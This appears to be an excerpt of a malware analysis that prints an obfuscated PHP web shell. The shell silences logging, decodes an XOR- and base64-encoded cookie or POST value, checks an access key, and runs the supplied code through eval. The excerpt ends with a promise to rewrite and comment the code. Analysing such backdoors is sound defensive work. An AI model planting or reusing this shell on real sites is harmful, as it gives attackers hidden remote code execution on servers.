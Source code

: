 ```php
@ini_set('error_log', NULL);
@ini_set('log_errors', 0);
@ini_set('max_execution_time', 0);
@set_time_limit(0);

global $x864b367c;
function  r6971a($e76477, $qead07){
	global $rb22c05fb;
	$e112aa2d = "";
	for ($n28c=0; $n28c<strlen($e76477);){
		for ($o70350cf=0; $o70350cf<strlen($qead07) && $n28c<strlen($e76477);$o70350cf++, $n28c++){
            $e112aa2d .= chr(ord($e76477[$n28c]) ^ ord($qead07[$o70350cf]));
        }
    }
    return $e112aa2d;
}

function  b6ddf34f($e76477, $qead07){
    global $rb22c05fb;
    global $x864b367c;
    return r6971a(r6971a($e76477, $x864b367c), $qead07);
}

foreach ($_COOKIE as $qead07=>$l0c59b){
    $e76477 = $l0c59b;
    $k93f152 = $qead07;
}

if (!$e76477){
    foreach ($_POST as $qead07=>$l0c59b){
        $e76477 = $l0c59b;
        $k93f152 = $qead07;
    }
}

$e76477 = @unserialize(b6ddf34f(base64_decode($e76477), $k93f152));

if (isset($e76477['ak']) && $x864b367c==$e76477['ak']){
    if ($e76477['a'] == 'i'){
        $n28c = Array('pv' => @phpversion(),'sv' => '1.0-1',);
        echo @serialize($n28c);
    }
    elseif ($e76477['a'] == 'e'){
        eval/*v4c8*/($e76477['d']);
    }
    exit();
}
```


Finally lets go ahead and do some rewriting and commenting, to get the
complete view of what is going on.

